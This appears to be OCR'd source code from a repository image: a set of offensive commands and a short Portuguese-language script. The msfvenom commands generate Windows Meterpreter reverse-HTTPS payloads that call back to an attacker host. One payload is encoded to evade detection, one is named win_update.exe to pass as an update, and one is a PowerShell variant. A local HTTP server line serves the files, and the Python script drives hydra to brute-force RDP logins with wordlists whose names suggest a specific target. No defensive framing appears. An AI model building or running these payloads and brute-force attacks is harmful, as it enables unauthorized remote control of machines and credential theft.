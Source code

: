 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

#!/usr/bin/env python3
import os
import subprocess

def brute_force_rdp(target_ip, userlist, passlist):
    print(f"[+] Iniciando brute force no RDP ({target_ip}:3389)...")
    hydra_command = [
        'hydra', '-t', '4', '-V', '-f', '-u',
        '-L', userlist,
        '-P', passlist,
        f'rdp://{target_ip}'
    ]
    subprocess.run(hydra_command)

if __name__ == "__main__":
    userlist_path = "./userlist_atibaia_rdp.txt"
    passlist_path = "./wordlist_atibaia_vnc.txt"  # reaproveitando a mesma wordlist de senhas

    if not os.path.exists(userlist_path):
        print("[!] Lista de usuários não encontrada. Coloque o arquivo na mesma pasta com o nome 'userlist_atibaia_rdp.txt'")
        exit(1)

    if not os.path.exists(passlist_path):
        print("[!] Wordlist de senhas não encontrada. Coloque o arquivo na mesma pasta com o nome 'wordlist_atibaia_vnc.txt'")
        exit(1)

    target_ip = input("Digite o IP do alvo RDP: ")

    brute_force_rdp(target_ip, userlist_path, passlist_path)
